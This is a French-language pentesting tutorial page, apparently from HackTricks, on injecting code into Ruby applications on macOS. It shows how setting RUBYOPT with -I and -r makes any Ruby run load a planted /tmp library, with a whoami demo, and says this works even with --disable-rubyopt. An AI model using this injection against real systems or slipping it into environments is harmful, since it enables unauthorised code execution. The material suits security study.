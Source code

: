 # Injection d'applications Ruby sur macOS

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

En utilisant cette variable d'environnement, il est possible d'**ajouter de nouveaux paramètres** à **ruby** chaque fois qu'il est exécuté. Bien que le paramètre **`-e`** ne puisse pas être utilisé pour spécifier le code ruby à exécuter, il est possible d'utiliser les paramètres **`-I`** et **`-r`** pour ajouter un nouveau dossier au chemin de chargement des bibliothèques et ensuite **spécifier une bibliothèque à charger**.

Créez la bibliothèque **`inject.rb`** dans **`/tmp`** :
```ruby:inject.rb
puts `whoami`
```
Créez n'importe où un script Ruby comme :
```ruby:hello.rb
puts 'Hello, World!'
```
Ensuite, faites charger un script ruby arbitraire avec :
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Fait amusant, cela fonctionne même avec le paramètre **`--disable-rubyopt`** :
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
